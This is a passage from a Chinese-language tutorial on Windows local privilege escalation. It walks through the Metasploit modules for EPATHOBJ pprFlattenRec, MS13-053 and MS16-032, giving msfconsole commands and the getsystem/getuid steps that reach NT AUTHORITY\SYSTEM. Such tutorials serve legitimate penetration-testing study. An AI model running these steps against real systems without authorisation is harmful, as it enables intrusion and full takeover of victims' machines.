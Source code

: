 此模块利用了EPATHOBJ :: pprFlattenRec上的漏洞，其主要问题出在使用了未初始化的数据（即允许损坏内存）。

目前，该模块已在Windows XP SP3，Windows 2003 SP1和Windows 7 SP1上成功进行了测试。

让我们转到MSF控制台并执行该漏洞的exploit模块

```bash
use exploit/windows/local/ppr_flatten_rec
set lhost 192.168.1.107
set session 1
exploit
```

一旦exploit成功执行，就会打开另一个Meterpreter session

```bash
getsystem
getuid
```

可以看到，我们当前的用户权限已提升为了**NT AUTHORITY\SYSTEM**

**![Windows内核漏洞利用提权教程](https://image.3001.net/images/20180913/1536801843_5b99bc331ae66.png!small)**

## **MS13-053 : NTUserMessageCall Win32k内核池溢出**

Win32k中的内核池溢出漏洞，可允许本地用户提权。内核shellcode使winlogon.exe进程的ACL为NULL（SYSTEM进程）。这将允许任何非特权进程自由迁移到winlogon.exe，从而提升用户权限。注意：退出meterpreter会话时，可能会导致winlogon.exe崩溃。

目前，该模块已在Windows 7 SP1 x86上成功测试。

让我们转到MSF控制台并执行该漏洞的exploit模块

```bash
use exploit/windows/local/ms13_053_ schlamperei
set lhost 192.168.1.107
set session 1
exploit
```

一旦exploit成功执行，就会打开另一个Meterpreter session

```bash
getsystem
getuid
```

可以看到，我们当前的用户权限已提升为了**NT AUTHORITY\SYSTEM**

**![Windows内核漏洞利用提权教程](https://image.3001.net/images/20180913/1536801864_5b99bc481849a.png!small)**

## **MS16-032 Secondary Logon Handle提权**

此模块利用了Windows Secondary Logon Service中缺少标准句柄过滤的问题。该漏洞主要影响Windows 7-10和2k8-2k12 32/64位版本。此模块仅适用于具有Powershell 2.0或更高版本的Windows系统，以及具有至少两个或以上CPU内核的系统。

```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set session 1
exploit
```
